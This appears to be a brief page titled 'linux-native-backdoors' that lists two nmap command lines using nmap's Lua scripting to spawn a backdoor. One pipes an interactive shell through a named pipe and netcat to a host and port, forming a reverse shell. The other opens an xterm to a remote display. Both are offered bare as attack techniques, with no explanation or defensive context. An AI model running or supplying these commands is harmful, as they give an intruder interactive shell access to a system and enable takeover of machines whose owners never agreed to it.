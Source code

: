 linux-native-backdoors
======================

nmap cmd line execution:
nmap --script <(echo "os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f')")
nmap --script <(echo "os.execute('xterm -display 127.0.0.1:1')")

